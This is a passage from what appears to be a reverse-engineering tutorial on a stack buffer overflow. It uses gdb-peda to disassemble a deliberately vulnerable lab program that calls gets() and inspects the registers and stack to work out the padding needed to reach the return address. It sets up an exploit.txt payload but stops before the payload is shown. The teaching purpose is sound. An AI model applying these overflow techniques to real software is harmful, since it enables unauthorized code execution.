 Let us write a function which will generate the payload and write it into a file **exploit.txt**. 

1. Find the length of junk to be put in. This is the difference between buffer address and stack address where Return Address is present. 

    * Let us run **defeat** - our vulnerable program in gdb to get it. 

            rev_eng_series/post_15}=)> gdb -q defeat
            Reading symbols from defeat...(no debugging symbols found)...done.
            gdb-peda$ disass func
            Dump of assembler code for function func:
            0x0804843b <+0>:	push   ebp
            0x0804843c <+1>:	mov    ebp,esp
            0x0804843e <+3>:	sub    esp,0x78
            0x08048441 <+6>:	sub    esp,0xc
            0x08048444 <+9>:	lea    eax,[ebp-0x6c]
            0x08048447 <+12>:	push   eax
            0x08048448 <+13>:	call   0x8048300 <gets@plt>
            0x0804844d <+18>:	add    esp,0x10
            0x08048450 <+21>:	nop
            0x08048451 <+22>:	leave  
            0x08048452 <+23>:	ret    
            End of assembler dump.
            gdb-peda$ b *0x0804843b
            Breakpoint 1 at 0x804843b
            gdb-peda$ run


    * The following is the state just after **func** is called. 

            [----------------------------------registers-----------------------------------]
            EAX: 0x14 
            EBX: 0x0 
            ECX: 0xffffffff 
            EDX: 0xf7fa6870 --> 0x0 
            ESI: 0xf7fa5000 --> 0x1b1db0 
            EDI: 0xf7fa5000 --> 0x1b1db0 
            EBP: 0xffffcc38 --> 0x0 
            ESP: 0xffffcc2c --> 0x8048479 (<main+38>:	sub    esp,0xc)
            EIP: 0x804843b (<func>:	push   ebp)
            EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
            [-------------------------------------code-------------------------------------]
            0x8048432 <frame_dummy+34>:	add    esp,0x10
            0x8048435 <frame_dummy+37>:	leave  
            0x8048436 <frame_dummy+38>:	jmp    0x80483b0 <register_tm_clones>
            => 0x804843b <func>:	push   ebp
            0x804843c <func+1>:	mov    ebp,esp
            0x804843e <func+3>:	sub    esp,0x78
            0x8048441 <func+6>:	sub    esp,0xc
            0x8048444 <func+9>:	lea    eax,[ebp-0x6c]
            [------------------------------------stack-------------------------------------]
            0000| 0xffffcc2c --> 0x8048479 (<main+38>:	sub    esp,0xc)
            0004| 0xffffcc30 --> 0xf7fa53dc --> 0xf7fa61e0 --> 0x0 
            0008| 0xffffcc34 --> 0xffffcc50 --> 0x1 
            0012| 0xffffcc38 --> 0x0 
            0016| 0xffffcc3c --> 0xf7e0b637 (<__libc_start_main+247>:	add    esp,0x10)
            0020| 0xffffcc40 --> 0xf7fa5000 --> 0x1b1db0 
            0024| 0xffffcc44 --> 0xf7fa5000 --> 0x1b1db0 
            0028| 0xffffcc48 --> 0x0 
            [------------------------------------------------------------------------------]
            Legend: code, data, rodata, value
